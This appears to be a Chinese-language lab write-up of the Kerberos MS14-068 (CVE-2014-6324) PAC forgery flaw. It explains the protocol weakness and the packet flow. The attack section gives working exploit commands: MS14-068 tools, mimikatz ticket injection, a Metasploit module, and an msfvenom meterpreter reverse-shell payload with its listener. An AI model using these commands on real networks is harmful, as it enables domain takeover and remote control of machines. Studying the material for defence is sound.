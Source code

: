 # CVE-2014-6324

### 漏洞原理

此漏洞是通过篡改 pac ，使得服务将攻击者认定高权限账户来运行。

先分析一下 kerberos 中的 pac 验证流程：

- as-req：客户端向 kdc 发送身份验证请求。
- as-rep：kdc 向客户端返回 tgt，tgt 里包含针对此用户的pac信息。
  - 此 pac 信息是 kdc 通过在活动目录数据库中查询用户身份所得到的信息。
- tgs-req：客户端使用此 tgt 向 kdc 申请 st。
- tgs-rep：kdc 检查此 tgt，然后使用此 tgt 的信息和活动目录数据库的信息生成 st。
  - 此 st 是 kdc 向客户端颁发的，里面包含 pac 信息，此 pac 信息是 kdc 接收到 tgt 后直接从 tgt 里的 pac 复制得来的。
  - 这样服务端接受到此 st 后，凭借 pac 信息获取目标详细身份，通过 acl 来进行权限判断，不用再访问 kdc。
  - pac信息被服务 hash 和 krbtgt 账户的 hash 分别签名，分别对应 PAC_SERVER_CHECKSUM 和 PAC_PRIVSVR_CHECKSUM。
- ap-req：客户端将申请到的 st 发送给服务器。
- ap-rep：服务器能正常解密此 st 说明验证成功，并根据 pac 信息赋予客户端该有的权限。

再分析一下客户端如何篡改 pac，导致 pac 有一个高权限的信息：

- pac 受到 PAC_SERVER_CHECKSUM 和 PAC_PRIVSVR_CHECKSUM 签名的保护。
  - 此漏洞：对 pac 签名时，微软支持 md5，而 md5 算法不需要密钥，生成 PAC_SERVER_CHECKSUM 和   PAC_PRIVSVR_CHECKSUM 签名时，不需要知道服务 hash 和 krbtgt 账户的 hash，直接对 pac 进行 md5 运算就能伪造一个 kdc 能承认的 pac，我们仅仅对伪造好的 pac 进行 md5 运算即可。

- 篡改 pac，然后对 pac 进行 md5 运算即可。


### 攻击过程

```
wmic qfe get hotfixid

whoami /all

# 获取一个域用户身份，进行漏洞利用，会返回一个高权限访问 krbtgt 服务的 st，使用此 st 能让我们申请一个高权限tgt
MS14-068.exe -u deandean@HACK.com -p p-0p-0p-0 -s S-1-5-21-2992640285-1035252920-1077850616-1104 -d 192.168.72.21

python2 ms14-068.py -u deandean@HACKER.com -s S-1-5-21-2300517204-3404117977-1485978427-1111 -d 192.168.72.163 -p p-0p-0p-0
```

![image-20250205154123708](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E5%B8%B8%E8%A7%84%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20250205154123708.png)

```
#删除当前缓存的 kerberos 票据
kerberos::purge
#导入指定路径的票据
kerberos::ptc C:\users\hack\desktop\TGT_hack@xie.com.ccache

dir \\dc01.HACK.com\c$

wmic qfe get hotfixid

# 获取一个域用户身份，进行漏洞利用，会返回一个高权限访问 krbtgt 服务的 st，使用此 st 能让我们申请一个高权限 tgt
MS14-068.exe -u deandean@HACKER.com -p p-0p-0p-0 -s S-1-5-21-2300517204-3404117977-1485978427-1111 -d 192.168.72.163

python2 ms14-068.py -u deandean@HACKER.com -s S-1-5-21-2300517204-3404117977-1485978427-1111 -d 192.168.72.163 -p p-0p-0p-0
```

```
use auxiliary/admin/kerberos/ms14_068_kerberos_checksum
set domain HACKER.com
set password p-0p-0p-0
set user deandean
set user_sid S-1-5-21-2300517204-3404117977-1485978427-1111
set rhosts 192.168.72.163
run

kerberos::clist "20201110021544_default_192.168.2.25_windows.kerberos_988070.bin" /export

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.1.1.17 lport=4444 -a x64 -f exe > Desktop/evil17.exe

use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.72.162
```

### 此脚本攻击流程

##### as-req

请求一个不包含 PAC 的 TGT 认购权证，将 PA-PAC-REQUEST 设置为 false，include-pac 的值为false，至于为什么include-pac的值为false，我们会在后续讨论到

##### as-rep

返回一个不带pac的tgt

##### tgs-req

在此阶段，我们需要伪造一个合法的 pac 信息，首先要解决以下两个问题，第一：如何绕过 pac 信息签名的验证。第二：将伪造的 pac 信息放在哪个地方。

绕过 pac 信息签名认证我们之前讨论过，使用 md5 可以构造合法的pac信息，但是我们还要将 pac 信息放到请求的tgt里面吗？因为申请的st里面的pac信息是kdc验证完 tgt 签名后直接从 tgt 里的 pac 信息复制得来的，那么我们真能将 pac 信息放到 tgt 里面吗？

当然不能，因为 pac 在 tgt 里的加密部分，而加密密钥是krbtgt账户的hash，我们除非知道krbtgt账户的hash，否则不可能将pac信息重新放到tgt里面。但是pac信息不一定要放在tgt里面。相反，可以将伪造的 PAC 放在 TGS-REQ 消息的 enc-authorization-data 段中。尽管 enc-authorization-data 段是加密的，但是此加密密钥是用户已知的。可以使用 TGT 会话密钥或子会话密钥（在authenticator中指定）

![image-20241113203949066](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E5%B8%B8%E8%A7%84%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20241113203949066.png)

##### tgs-rep

kdc能够使用subkey或者解密enc-authorization-data获取到pac信息，然后将此pac信息直接复制到st中，导致返回的st携带了被篡改的pac信息

##### 后续利用

以上过程完成后，tgs-rep会返回一个高权限的st服务票据，MS14-068.exe程序访问的是krbtgt服务账户，因此可以利用此st服务票据获得一个高权限的tgt认购权证，再利用此tgt认购权证，利用高权限可以随意请求到任何服务的st服务票据，整个过程产生如下数据包：

![image-20241113210951517](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E5%B8%B8%E8%A7%84%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20241113210951517.png)

- as-req&as-rep：请求无pac的tgt
- 第一个tgs-req&tgs-rep：请求高权限访问krbtgt服务账户的st服务票据
- 第二个tgs-req&tgs-rep：利用此st请求krbtgt服务账户来得到一个高权限的tgt认购权证
- 第三个tgs-req&tgs-rep：利用此tgt请求任意服务的st服务票据
- ap-req&ap-rep：利用目标服务的st服务票据（高权限）访问目标服务

##### 脚本攻击的细节如下：

- 在tgs-req阶段伪造pac信息，此时没有krbtgt账户的hash我们不能把pac信息放进tgt里面，但是可以放在enc-authorization-data里面，kdc依然能够解析到pac信息，并将pac信息复制到st中
- as-req阶段客户端向kdc发送请求时，设置PA-PAC-REQUEST参数为false，让include-pac 的值为false，使得kdc返回的tgt不存在pac信息，这样做的目的是为了避免在tgs-rep阶段，发送的tgt里存在kdc制作的合法的pac信息，与我们放在enc-authorization-data里面的伪造的pac信息发生冲突

##### 参考文章

https://labs.withsecure.com/publications/digging-into-ms14-068-exploitation-and-defence

### 防御

微软自动更新打补丁

